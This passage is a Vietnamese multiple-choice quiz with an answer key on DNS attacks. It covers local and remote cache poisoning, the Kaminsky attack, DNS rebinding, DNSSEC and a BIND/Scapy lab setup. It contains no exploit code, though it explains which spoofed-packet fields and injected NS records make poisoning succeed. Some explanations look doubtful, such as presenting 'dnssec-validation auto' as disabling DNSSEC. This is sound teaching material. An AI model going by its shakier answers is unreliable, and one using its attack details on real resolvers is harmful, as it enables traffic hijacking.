    DNS Spoofing (hay DNS Cache Poisoning) nhằm đưa IP giả vào cache của local DNS server. Khi người dùng truy vấn một tên miền (ví dụ trang ngân hàng), họ nhận được IP giả và kết nối đến server của kẻ tấn công mà không hay biết.

---

**Câu 11.** Trong Local DNS Cache Poisoning Attack từ LAN, attacker cần làm gì trước tiên?

- A. Gửi truy vấn DNS giả mạo đến root server
- B. Sniff (nghe lén) gói truy vấn DNS gửi từ local DNS server ra ngoài
- C. Chiếm quyền root trên local DNS server
- D. Chặn kết nối giữa local DNS server và TLD server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Để giả mạo phản hồi DNS, attacker cần biết Transaction ID và source port của truy vấn gốc. Khi nằm trên cùng LAN, attacker có thể sniff (nghe lén) trực tiếp gói tin truy vấn để lấy các thông tin này, sau đó tạo spoofed reply trước khi reply thật đến.

---

**Câu 12.** Một gói DNS spoofed response hợp lệ phải có Source IP là gì?

- A. IP của máy attacker
- B. IP của local DNS server
- C. IP của DNS server thật mà local DNS server đang hỏi
- D. IP của máy người dùng

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Để local DNS server chấp nhận spoofed reply, gói tin phải có Source IP là IP của DNS server thật mà local DNS server đang chờ câu trả lời. Local DNS server kiểm tra source IP của response để đảm bảo reply đến từ đúng server.

---

**Câu 13.** Trong spoofed DNS packet, giá trị Transaction ID phải là gì?

- A. Một số ngẫu nhiên bất kỳ
- B. Luôn là 0x0000
- C. Khớp với Transaction ID trong gói truy vấn gốc
- D. Luôn là 0xFFFF

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Local DNS server dùng Transaction ID để khớp (match) response với query tương ứng. Nếu ID trong response không khớp với ID trong query, response sẽ bị bỏ qua. Đây là một trong những thách thức chính của remote DNS cache poisoning.

---

**Câu 14.** Khi Authority section của DNS response chứa `example.net NS ns.attacker32.com`, điều gì xảy ra?

- A. Bị bỏ qua hoàn toàn
- B. Local DNS server cache thông tin này và sẽ hỏi `ns.attacker32.com` cho mọi truy vấn thuộc `example.net`
- C. Local DNS server từ chối toàn bộ response
- D. Local DNS server chỉ dùng cho truy vấn `www.example.net`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Đây là kỹ thuật "hijacking entire domain". Khi attacker inject NS record vào Authority section, local DNS server cache thông tin nameserver giả. Từ đó, tất cả truy vấn thuộc domain `example.net` sẽ được chuyển đến nameserver của attacker, không chỉ riêng `www.example.net`.

---

**Câu 15.** Lệnh nào dùng để xóa cache của BIND DNS server?

- A. `sudo bind9 clear`
- B. `sudo rndc flush`
- C. `sudo systemctl restart bind9`
- D. `sudo rndc reload`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `sudo rndc flush` xóa toàn bộ cache của BIND DNS server. `sudo rndc dumpdb -cache` dump cache ra file để kiểm tra. Trong thực nghiệm tấn công, cần flush cache trước để đảm bảo attacker không bị chặn bởi cache cũ từ reply thật.

---

**Câu 16.** Trong Remote DNS Cache Poisoning, attacker phải đoán bao nhiêu bit ngẫu nhiên?

- A. 8 bit (Transaction ID)
- B. 16 bit (Transaction ID)
- C. 32 bit (Transaction ID + Source Port)
- D. 64 bit

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Attacker phải đoán đúng cả Transaction ID (16-bit, ~65.536 giá trị) **và** Source Port (16-bit, ~65.536 giá trị). Kết hợp lại là 32-bit, tương đương ~4,3 tỷ tổ hợp. Trong thực tế, BIND thường dùng fixed port (có thể bị cấu hình cố định), giảm xuống còn 16-bit, nhưng vẫn là thách thức lớn.

---

**Câu 17.** "Cache effect" trong Remote DNS Attack có nghĩa là gì?

- A. Cache DNS server làm tăng tốc độ tấn công
- B. Nếu một lần thử thất bại, reply thật sẽ được cache, attacker phải chờ TTL hết hạn mới thử lại
- C. Attacker có thể xóa cache từ xa
- D. Cache effect giúp attacker tái sử dụng Transaction ID cũ

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Đây là thách thức lớn nhất của remote attack. Nếu reply thật đến trước spoofed reply, bản ghi đúng được cache. Attacker phải chờ đến khi TTL hết (có thể hàng giờ hoặc hàng ngày) mới có cơ hội thử lại. Đây là lý do Kaminsky phải nghĩ ra cách hỏi tên ngẫu nhiên mỗi lần.

---

**Câu 18.** Ý tưởng cốt lõi của Kaminsky Attack là gì?

- A. Tăng tốc độ gửi gói tin lên gấp 1000 lần
- B. Hỏi một tên ngẫu nhiên khác nhau mỗi lần để tránh cache blocking, đồng thời nhúng thông tin giả vào Authority section
- C. Giải mã Transaction ID bằng cryptanalysis
- D. Tấn công root server trước để vô hiệu hóa DNSSEC

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Kaminsky nhận ra rằng vấn đề chính là cache blocking. Giải pháp: thay vì hỏi `www.example.com` (dễ bị cache block), hỏi `abcde.example.com`, `fghij.example.com`... (tên ngẫu nhiên) mỗi lần. Câu trả lời về tên ngẫu nhiên không quan trọng; điều quan trọng là nhúng `example.com NS ns.attacker32.com` vào Authority section để cache domain toàn bộ.

---

**Câu 19.** Trong Kaminsky Attack, thông tin thực sự quan trọng được nhúng vào phần nào của DNS response?

- A. Answer section — câu trả lời về hostname ngẫu nhiên
- B. Authority section — NS record khai báo nameserver giả cho domain mục tiêu
- C. Additional section — địa chỉ IP của nameserver
- D. Question section — câu hỏi được lặp lại

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Answer section chỉ chứa IP của hostname ngẫu nhiên (không quan trọng). Mục tiêu thực sự là Authority section với bản ghi `example.com IN NS ns.attacker32.com`. Khi local DNS server cache bản ghi NS này, toàn bộ domain `example.com` bị redirect đến attacker's nameserver.

---

**Câu 20.** Nguyên tắc "out-of-zone rejection" trong DNS bảo vệ điều gì?

- A. Ngăn DNS server trả lời quá nhiều truy vấn cùng lúc
- B. Loại bỏ thông tin trong response về các domain không thuộc phạm vi quyền hạn của nameserver đang được hỏi
- C. Ngăn chặn DNSSEC validation
- D. Chặn truy vấn từ các IP không được phép

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Out-of-zone rejection là cơ chế bảo vệ quan trọng. Khi nameserver của `attacker32.com` trả lời truy vấn, local DNS server chỉ tin tưởng thông tin liên quan đến `attacker32.com`. Các bản ghi về `gmail.com`, `facebook.com`... trong Additional hoặc Authority section sẽ bị bỏ qua vì out-of-zone.

---

**Câu 21.** Khi malicious DNS server trả về bản ghi `facebook.com IN NS ns.example.net` trong Authority section của một response về `example.net`, điều gì xảy ra?

- A. Bản ghi bị chấp nhận vì NS record luôn được chấp nhận
- B. Bản ghi bị từ chối vì `facebook.com` out-of-zone
- C. Local DNS server sẽ hỏi `ns.example.net` về `facebook.com`
- D. Local DNS server sẽ cache `facebook.com NS ns.example.net`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `facebook.com` không thuộc zone `example.net`, nên bản ghi này là out-of-zone và bị từ chối. Nguyên tắc bảo vệ này ngăn chặn attacker lợi dụng Authority section để hijack domain ngoài phạm vi quyền hạn của họ.

---

**Câu 22.** Trong Reply Forgery Attack, nếu Authority section chứa `example.net IN NS www.facebook.com`, local DNS server sẽ làm gì với `www.facebook.com`?

- A. Từ chối vì `www.facebook.com` không liên quan đến `example.net`
- B. Cache `www.facebook.com` làm nameserver của `example.net` và tự tra cứu địa chỉ IP thật của `www.facebook.com`
- C. Dùng địa chỉ IP trong Additional section cho `www.facebook.com`
- D. Gửi truy vấn về `www.facebook.com` đến attacker

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Bản ghi NS khai báo `www.facebook.com` là nameserver của `example.net` được chấp nhận (vì liên quan đến zone được hỏi). Tuy nhiên, bản ghi Additional về IP của `www.facebook.com` sẽ bị từ chối (out-of-zone). Local DNS server sẽ **tự đi tra cứu** địa chỉ IP thật của `www.facebook.com` — kết quả sẽ là IP thật của Facebook, không phải IP của attacker.

---

**Câu 23.** Reverse DNS lookup sử dụng định dạng tên miền nào cho IP `128.230.171.184`?

- A. `128.230.171.184.reverse.arpa`
- B. `184.171.230.128.in-addr.arpa`
- C. `128.230.171.184.ptr.arpa`
- D. `rev.128.230.171.184`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Reverse DNS lookup đảo ngược thứ tự các octet của địa chỉ IP và thêm `.in-addr.arpa`. Do đó `128.230.171.184` thành `184.171.230.128.in-addr.arpa`. Lý do đảo ngược là để tận dụng cấu trúc phân cấp DNS (phần cụ thể nhất ở cuối tên miền, tương tự như phần mạng ở đầu địa chỉ IP).

---

**Câu 24.** Tại sao không nên dùng kết quả Reverse DNS Lookup làm cơ sở duy nhất cho Access Control?

- A. Reverse DNS lookup quá chậm
- B. Kết quả có thể bị giả mạo bởi attacker kiểm soát nameserver của mình
- C. Không phải mọi IP đều có reverse DNS record
- D. Reverse DNS chỉ hoạt động với IPv4

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Khi gói tin đến từ máy attacker, quá trình reverse lookup sẽ hỏi nameserver của attacker. Attacker hoàn toàn có thể cấu hình nameserver trả về bất kỳ hostname nào, ví dụ `trusted.syr.edu`, lừa hệ thống access control. Đây là lý do reverse DNS không đáng tin cậy cho mục đích bảo mật.

---

**Câu 25.** Same-Origin Policy (SOP) trong trình duyệt web bảo vệ điều gì?

- A. Ngăn JavaScript từ trang web A gọi API/đọc dữ liệu của trang web B (khác origin)
- B. Ngăn chặn SQL injection
- C. Mã hóa tất cả traffic của trình duyệt
- D. Xác thực chứng chỉ SSL

??? info "Đáp án & Giải thích"
    **Đáp án: A**

    SOP ngăn JavaScript trên trang web `attacker32.com` gửi request đến `bank.com` hoặc thiết bị nội bộ, vì chúng khác origin (protocol + hostname + port). DNS Rebinding tấn công chính xác vào cơ chế này bằng cách thay đổi IP mapping của tên miền attacker.

---

**Câu 26.** DNS Rebinding Attack nhằm bypass cơ chế bảo vệ nào?

- A. DNSSEC
- B. Firewall
- C. Same-Origin Policy
- D. TLS/SSL certificate validation

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    DNS Rebinding bypass Same-Origin Policy. Ban đầu, tên miền của attacker trỏ đến server thật của attacker (để load JavaScript). Sau khi TTL hết, tên miền được rebind đến IP của IoT device nội bộ. Trình duyệt vẫn nghĩ đang giao tiếp với cùng origin (attacker's domain) nên SOP không chặn.

---

**Câu 27.** Trong DNS Rebinding Attack, tại sao TTL cần phải rất ngắn?

- A. Để tăng tốc độ load trang web
- B. Để DNS cache của trình duyệt hết hạn nhanh, cho phép rebinding xảy ra trong thời gian ngắn
- C. Để tránh bị phát hiện bởi firewall
- D. Vì TTL dài làm DNSSEC không hoạt động

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    TTL ngắn (thậm chí 1-2 giây) đảm bảo DNS cache của trình duyệt hết hạn sớm. Sau đó, khi JavaScript thực hiện request tiếp theo, trình duyệt phải tra cứu DNS lại — lần này nameserver của attacker trả về IP của IoT device nội bộ (rebinding). Nếu TTL dài, cơ hội rebinding sẽ bị trì hoãn.

---

**Câu 28.** Điều gì làm cho Root DNS servers khó bị tấn công DoS?

- A. Root servers được bảo vệ bởi firewall vật lý đặc biệt
- B. Root servers được phân tán cao (anycast), và TLD records thường đã được cache trong 48 giờ
- C. Root servers chạy DNSSEC nên miễn nhiễm với DoS
- D. Root servers chỉ nhận truy vấn từ các IP được phê duyệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Hai lý do chính: (1) Mỗi root "server" thực ra là hàng trăm node vật lý phân tán trên toàn cầu qua anycast — tấn công một node không ảnh hưởng đến các node khác. (2) Local DNS servers thường cache địa chỉ của TLD nameservers đến 48 giờ — ngay cả khi root server bị hạ, hầu hết truy vấn vẫn hoạt động bình thường trong khoảng thời gian đó.

---

**Câu 29.** Vụ tấn công DNS nào trong lịch sử đã ảnh hưởng đến 20 tỉnh của Trung Quốc và được coi là sự cố Internet tệ nhất tại nước này?

- A. Tấn công vào Dyn Network năm 2016
- B. Tấn công vào UltraDNS năm 2009
- C. Tấn công vào DNSPod năm 2009
- D. Tấn công vào root servers năm 2007

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Vụ tấn công DNSPod năm 2009: DNS servers của DNSPod bị DDoS, nhắm vào Baofeng.com. Do bug trong media player của Baofeng (gửi DNS query liên tục thay vì chờ), hàng triệu client tạo ra làn sóng DNS query khổng lồ, làm nghẽn mạng China Telecom, ảnh hưởng 20 tỉnh.

---

**Câu 30.** DNSSEC cung cấp những tính năng bảo mật nào cho DNS?

- A. Mã hóa nội dung DNS query và response
- B. Xác thực (authentication) và kiểm tra tính toàn vẹn (integrity) của dữ liệu DNS thông qua chữ ký số
- C. Ẩn danh (anonymity) cho người dùng DNS
- D. Giới hạn tốc độ truy vấn DNS (rate limiting)

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DNSSEC không mã hóa DNS traffic (DNS vẫn có thể bị đọc nội dung). DNSSEC cung cấp authentication (xác nhận data đến từ đúng nguồn) và integrity (xác nhận data không bị sửa đổi) thông qua chữ ký số. Cache poisoning bị ngăn chặn vì dữ liệu giả sẽ fail kiểm tra chữ ký.

---

**Câu 31.** DNSSEC sử dụng chuỗi tin cậy (chain of trust) như thế nào?

- A. Mỗi domain tự ký chứng chỉ của mình (self-signed)
- B. Certificate Authority trung tâm ký cho tất cả domain
- C. Zone cha xác nhận zone con qua DS record (hash của public key zone con)
- D. Người dùng tự quản lý danh sách domain tin cậy

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    DNSSEC chain of trust: Root ký → `.net` zone; `.net` chứa DS record (hash public key của `example.net`) → `example.net` zone. Resolver bắt đầu từ root (trust anchor được cài sẵn), xác minh DS của từng zone theo chiều từ trên xuống. Nếu bất kỳ chữ ký nào fail, dữ liệu bị từ chối.

---

**Câu 32.** Sự khác biệt giữa chain of trust của DNSSEC và TLS/SSL là gì?

- A. DNSSEC dùng symmetric key, TLS dùng asymmetric key
- B. DNSSEC dùng DNS zone hierarchy (zone cha xác nhận zone con), TLS dùng Certificate Authorities
- C. DNSSEC hoạt động ở tầng transport, TLS hoạt động ở tầng application
- D. Không có sự khác biệt, cả hai đều dùng PKI

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DNSSEC: chain of trust theo cấu trúc phân cấp DNS (root → TLD → second-level domain). TLS/SSL: chain of trust theo PKI với các Certificate Authorities được trình duyệt/OS tin tưởng. Cả hai đều dùng public key cryptography nhưng mô hình tin cậy khác nhau.

---

**Câu 33.** TLS/SSL bảo vệ chống DNS Cache Poisoning như thế nào?

- A. Mã hóa DNS query để attacker không thể sniff Transaction ID
- B. Sau khi nhận IP từ DNS, server phải chứng minh danh tính qua certificate hợp lệ — server giả không có certificate đúng
- C. TLS tích hợp DNSSEC để xác thực DNS response
- D. TLS thay thế hoàn toàn DNS bằng cơ chế phân giải tên miền an toàn hơn

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Ngay cả khi DNS trả về IP giả (do cache poisoning), khi trình duyệt kết nối đến server đó qua HTTPS, server phải present certificate hợp lệ được CA ký cho tên miền đó. Server giả mạo của attacker không thể có certificate hợp lệ (vì CA sẽ không ký) → trình duyệt cảnh báo và từ chối kết nối.

---

**Câu 34.** Kẻ tấn công có root access trên máy nạn nhân có thể tấn công DNS bằng cách nào? (Chọn tất cả đáp án đúng)

- A. Sửa `/etc/resolv.conf` để dùng DNS server độc hại
- B. Sửa `/etc/hosts` để thêm bản ghi giả cho các domain mục tiêu
- C. Cả A và B đều đúng
- D. Chỉ có thể tấn công bằng cách cài BIND DNS server độc hại

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Cả hai đều là vector tấn công hợp lệ khi có root access. Sửa `/etc/resolv.conf` redirect toàn bộ DNS traffic qua DNS server độc hại. Sửa `/etc/hosts` inject trực tiếp mapping giả cho các domain cụ thể mà không cần DNS server.

---

**Câu 35.** Trong thực nghiệm, BIND được cấu hình với `query-source port 33333`. Mục đích là gì?

- A. Tăng hiệu suất DNS server
- B. Đơn giản hóa thực nghiệm bằng cách dùng port cố định thay vì ngẫu nhiên, dễ tấn công hơn
- C. Bật tính năng DNSSEC
- D. Giới hạn số truy vấn DNS đến từ port 33333

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Mặc định, BIND dùng source port ngẫu nhiên (randomization) để tăng bảo mật. Trong thực nghiệm học tập, dùng fixed port `33333` loại bỏ một trong hai yếu tố ngẫu nhiên cần đoán, giúp việc thực hành tấn công dễ hơn.

---

**Câu 36.** Trong Kaminsky Attack, giá trị trong Answer section của spoofed response (IP của hostname ngẫu nhiên) có quan trọng không?

- A. Rất quan trọng — đây là mục tiêu chính của cuộc tấn công
- B. Không quan trọng — mục tiêu thực sự là Authority section
- C. Quan trọng vì nó xác định IP của attacker's nameserver
- D. Quan trọng vì nó phải khớp với TTL của Authority section

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Answer section trong Kaminsky Attack chứa IP cho tên ngẫu nhiên (như `twysw.example.com`). Dù IP này là giả hay thật, không quan trọng — local DNS server không quan tâm đến IP của một hostname ngẫu nhiên vô nghĩa. Điều quan trọng duy nhất là Authority section với `example.com NS ns.attacker32.com` được cache.

---

**Câu 37.** Tại sao vụ tấn công Dyn Network (2016) đặc biệt đáng chú ý về mặt kỹ thuật?

- A. Sử dụng Kaminsky Attack lần đầu tiên trong thực tế
- B. Tấn công được thực hiện qua botnet IoT (camera IP, baby monitor...) thay vì máy tính thông thường
- C. Làm sập toàn bộ root DNS servers trong 1 giờ
- D. Sử dụng DNS rebinding để bypass firewall

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Vụ Dyn 2016 đánh dấu sự trỗi dậy của IoT botnet (Mirai botnet) trong DDoS attack. Hàng trăm nghìn thiết bị IoT với bảo mật kém (mật khẩu mặc định) bị khai thác để tạo botnet quy mô lớn, gây thiệt hại cho CNN, BBC, HBO, PayPal và nhiều dịch vụ lớn khác.

---

**Câu 38.** Scapy library trong Python được dùng để làm gì trong các thực nghiệm DNS attack?

- A. Phân tích log của BIND DNS server
- B. Tạo, gửi, và sniff các gói tin mạng tùy biến (bao gồm DNS packet giả mạo)
- C. Cấu hình DNSSEC trên local DNS server
- D. Brute-force Transaction ID của DNS query

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Scapy là thư viện Python mạnh mẽ cho phép tạo thủ công các gói tin mạng ở mức thấp, bao gồm IP header, UDP header, và DNS payload. Trong các thực nghiệm, Scapy được dùng để: (1) Sniff DNS query, (2) Tạo spoofed DNS response với các field tùy biến, (3) Gửi gói tin giả mạo.

---

**Câu 39.** Trong DNS Zone File, ký tự `@` có nghĩa là gì?

- A. Địa chỉ email của admin
- B. Ký tự đại diện (wildcard) cho mọi tên miền
- C. Origin domain được chỉ định trong named.conf (chuỗi sau từ khóa "zone")
- D. Record type cho email server

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Trong zone file, `@` là macro đại diện cho origin, tức là tên domain được chỉ định trong `named.conf` (phần `zone "example.net" { ... }`). Nó giúp tránh phải viết lại tên domain đầy đủ trong mỗi bản ghi.

---

**Câu 40.** Lệnh `dig @a.root-servers.net www.example.net` có nghĩa là gì?

- A. Hỏi DNS server mặc định về `www.example.net`, rồi so sánh với kết quả từ root server A
- B. Gửi truy vấn về `www.example.net` trực tiếp đến root server A (bỏ qua local DNS server)
- C. Kiểm tra xem `www.example.net` có được DNSSEC ký bởi root server A không
- D. Xóa cache của root server A cho bản ghi `www.example.net`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Tùy chọn `@` trong `dig` chỉ định DNS server cụ thể để gửi truy vấn. `@a.root-servers.net` gửi query trực tiếp đến root server A, bỏ qua local DNS server. Đây là cách emulate thủ công quá trình iterative DNS resolution.

---

**Câu 41.** Khi tấn công DNS từ LAN, attacker sniff gói tin DNS query để lấy thông tin gì cần thiết cho spoofing?

- A. Địa chỉ IP của người dùng
- B. Transaction ID và source port của truy vấn
- C. TTL của bản ghi DNS
- D. Địa chỉ MAC của local DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Để spoofed response được local DNS server chấp nhận, nó phải có Transaction ID khớp với truy vấn gốc và source port đúng. Sniffing cho phép attacker đọc trực tiếp hai giá trị này từ gói tin truy vấn, thay vì phải đoán (như trong remote attack).

---

**Câu 42.** Trong thực nghiệm cấu hình local DNS server, tại sao cần tắt DNSSEC (`dnssec-validation auto; dnssec-enable no;`)?

- A. DNSSEC tiêu tốn quá nhiều bandwidth
- B. Để đơn giản hóa thực nghiệm vì DNSSEC sẽ ngăn chặn các cuộc tấn công DNS spoofing
- C. DNSSEC không tương thích với BIND 9
- D. DNSSEC làm chậm DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Mục đích của bài thực nghiệm là học cách DNS spoofing hoạt động. Nếu DNSSEC được bật, nó sẽ phát hiện và từ chối mọi spoofed response (vì chúng không có chữ ký số hợp lệ), khiến tấn công thất bại. Tắt DNSSEC cho phép thực hành tấn công trong môi trường học tập.

---

**Câu 43.** Glue records trong DNS là gì?

- A. Bản ghi giả mạo được attacker inject vào cache
- B. Bản ghi A trong Additional section cung cấp địa chỉ IP của nameserver được đề cập trong Authority section, khi nameserver đó cùng zone
- C. Bản ghi đặc biệt liên kết hai domain trong cùng zone
- D. Bản ghi TTL=0 để vô hiệu hóa caching

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Glue records là A records hợp lệ trong Additional section, cung cấp IP của nameserver khi nameserver đó **thuộc cùng domain** mà nó phục vụ (ví dụ `ns1.example.com` là nameserver của `example.com`). Không có glue record, resolver sẽ rơi vào vòng lặp tra cứu. Đây là use case hợp lệ của Additional section, khác với glue records giả mạo bị out-of-zone rejection.

---

Tiếp nối nội dung bài học và các câu hỏi ôn tập về DNS Attacks, dưới đây là các câu hỏi từ câu 44 đến câu 50 để hoàn thiện bộ câu hỏi trắc nghiệm của bạn:

---

**Câu 44.** Tấn công DNS nào trong các loại dưới đây **không** nhằm mục đích thay đổi (poison) bản ghi IP trong cache của nạn nhân?

- A. Kaminsky Attack
- B. Local DNS Cache Poisoning
- C. DNS Amplification (DoS)
- D. DNS Rebinding

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Kaminsky, Local Cache Poisoning và DNS Rebinding đều tìm cách cung cấp một địa chỉ IP sai (giả mạo) để điều hướng traffic. Trong khi đó, DNS Amplification là một dạng tấn công **Denial of Service (DoS)**, sử dụng các DNS server để làm ngập lụt mục tiêu bằng lượng lớn traffic, khiến dịch vụ bị tê liệt chứ không thay đổi bản ghi cache.

---

**Câu 45.** Sự khác biệt giữa "Recursive Query" và "Iterative Query" là gì?

- A. Recursive query được mã hóa, Iterative query thì không
- B. Recursive query đẩy trách nhiệm phân giải cho DNS server; Iterative query trả về địa chỉ của nameserver tiếp theo để client tự hỏi
- C. Recursive query chỉ dùng cho IPv4, Iterative query dùng cho IPv6
- D. Không có sự khác biệt, hai thuật ngữ này dùng thay thế cho nhau

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Trong **Recursive Query**, máy khách (resolver) yêu cầu DNS server tìm câu trả lời cuối cùng. DNS server sẽ thay mặt client đi hỏi các server khác. Trong **Iterative Query**, nếu nameserver không biết câu trả lời, nó sẽ trả về danh sách các nameserver có thẩm quyền (referral) để client tự tiếp tục quá trình tra cứu.

---

**Câu 46.** Trong gói tin DNS Response, flag `AA` (Authoritative Answer) có ý nghĩa gì?

- A. Cho biết phản hồi đến từ một Authoritative Name Server cho domain đó
- B. Cho biết phản hồi đã được xác thực bằng DNSSEC
- C. Cho biết phản hồi được lấy từ cache của Local DNS server
- D. Cho biết phản hồi có kèm theo Additional Records

??? info "Đáp án & Giải thích"
    **Đáp án: A**

    Flag `AA` (bit thứ 6 trong flags) được thiết lập bởi Authoritative Nameserver để khẳng định rằng câu trả lời này là "chính chủ" từ bản ghi gốc, không phải là dữ liệu được lưu tạm (cached) từ một nameserver trung gian khác. Attacker thường set flag này trong spoofed packet để tăng độ tin cậy.

---

**Câu 47.** Tại sao cơ chế Same-Origin Policy (SOP) lại dựa trên Hostname thay vì địa chỉ IP?

- A. Vì IP có thể thay đổi thường xuyên (Dynamic IP)
- B. Để hỗ trợ Virtual Hosting (nhiều website chung một IP)
- C. Vì hostname dễ đọc hơn đối với người dùng
- D. Cả A và B đều đúng

??? info "Đáp án & Giải thích"
    **Đáp án: D**

    SOP dựa trên bộ ba (Protocol, Hostname, Port). Việc dựa trên Hostname cho phép Internet phát triển mạnh mẽ thông qua Virtual Hosting (một IP của Web Server có thể chứa hàng nghìn domain khác nhau). Tuy nhiên, chính sự phụ thuộc vào Hostname này đã tạo kẽ hở cho **DNS Rebinding**, khi một hostname duy nhất có thể bị ánh xạ sang các IP khác nhau (từ IP của attacker sang IP của nạn nhân nội bộ).

---

**Câu 48.** Công nghệ "Anycast" giúp ích gì cho các Root DNS Servers trong việc chống lại tấn công DoS?

- A. Nó mã hóa toàn bộ dữ liệu DNS
- B. Nó cho phép nhiều máy chủ vật lý ở các vị trí địa lý khác nhau dùng chung một địa chỉ IP, giúp phân tán tải và giảm tác động cục bộ của tấn công
- C. Nó tự động thay đổi Transaction ID liên tục
- D. Nó ngăn chặn hoàn toàn việc sniff gói tin trên mạng LAN

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Anycast cho phép định tuyến gói tin đến node gần nhất trong một cụm máy chủ dùng chung IP. Khi một node bị tấn công DDoS, chỉ các khu vực gần node đó bị ảnh hưởng, các khu vực khác vẫn truy cập được vào các node Anycast khác. Điều này khiến việc đánh sập hoàn toàn 13 logical root servers trở nên cực kỳ khó khăn.

---

**Câu 49.** Trong một cuộc tấn công DNS Spoofing thành công vào Local DNS Server, bản ghi giả mạo sẽ tồn tại trong bao lâu?

- A. Vĩnh viễn cho đến khi server restart
- B. Cho đến khi attacker ngừng gửi gói tin giả
- C. Theo giá trị TTL (Time-To-Live) được attacker quy định trong gói tin giả
- D. Luôn là 1 giờ theo mặc định của giao thức DNS

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Khi Local DNS Server chấp nhận một bản ghi (dù là giả mạo), nó sẽ lưu bản ghi đó vào cache trong khoảng thời gian bằng giá trị **TTL** nằm trong gói tin đó. Attacker thường đặt TTL rất lớn (ví dụ vài ngày) trong các cuộc tấn công Cache Poisoning truyền thống để duy trì sự kiểm soát lâu nhất có thể.

---

**Câu 50.** Tại sao việc triển khai DNSSEC trên toàn cầu lại diễn ra chậm chạp dù nó giải quyết được hầu hết các vấn đề bảo mật của DNS?

- A. Chi phí bản quyền DNSSEC quá cao
- B. Do yêu cầu cấu hình phức tạp, tăng kích thước gói tin DNS (dễ gây fragment), và cần sự phối hợp đồng bộ từ Root đến TLD và các Domain con
- C. Vì DNSSEC không tương thích với trình duyệt Chrome và Firefox
- D. Vì DNSSEC làm lộ thông tin cá nhân của người sở hữu tên miền

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DNSSEC đòi hỏi sự thay đổi lớn về hạ tầng: quản lý khóa (key management), ký số thủ công hoặc tự động, và đặc biệt là gói tin DNSSEC lớn hơn nhiều so với DNS thông thường, có thể bị chặn bởi các firewall cũ hoặc gây lỗi phân mảnh (fragmentation). Ngoài ra, nếu zone cha không hỗ trợ DNSSEC, chuỗi tin cậy (chain of trust) của zone con sẽ không có giá trị.
